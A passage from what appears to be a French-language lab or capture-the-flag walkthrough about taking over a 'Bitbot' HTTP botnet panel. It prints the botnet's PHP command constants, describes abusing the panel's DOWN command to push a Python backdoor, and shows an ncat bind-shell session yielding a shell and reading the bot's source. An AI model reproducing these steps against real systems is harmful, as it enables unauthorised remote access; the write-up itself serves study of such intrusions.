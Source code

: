 ```php
$apihash = 'hashrate'; //follow readme
$crypto = 'btc'; //btc or ltc
////////////////Do Not Edit Beyond This Point///////////////////////////////////////////
$BOT_CHECKIN_INTERVAL = '60';  //seconds
$CMD_SPLIT              = '<\\\\\>';
$CMD_DOWNLOAD   = 'DOWN';
$CMD_UPDATE             = 'UPDATE';
$CMD_VISIT_SITE         = 'VISIT';
$CMD_REMOVE             = 'REMOVE';
$CMD_DDOS_STOP  = 'STOP';
$CMD_BTC = 'MINE';
$CMD_STOPBTC = 'STOPMINE';
?>
```

Je sens que je vais conclure
----------------------------

On peut ainsi se connecter avec les identifiants d’administration sur */admin.php*.  

L'interface permet de spécifier certaines commandes prédéfinies que les bots exécuteront à leur prochaine connexion (c'est un botnet HTTP, rappelons-le).  

![Bitbot command panel](https://github.com/devl00p/blog/raw/master/images/bitbot_commands.png)

La commande *DOWN* semble tout indiqué pour que l'on récupère un shell mais si je lui passe l'adresse d'un *tshd* compilé statiquement ce dernier est bien récupéré mais le port de la backdoor n'est pas ouverte.  

Le bot étant écrit en Python il est probable qu'il n'accepte d'exécuter que du code Python.  

J'ai trouvé [sur pastebin une backdoor Python très basique](http://pastebin.com/nTzn08TL) qui bind() un port mais fera notre affaire :)  

```plain
$ ncat 192.168.1.29 31337 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.29:31337.
id
uid=1000(botter) gid=1000(botter) groups=1000(botter),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
cat /var/www/bot/bot.py
# -*- coding: utf-8 *-*
import httplib
import urllib
import threading
import time
import hashlib
import os

```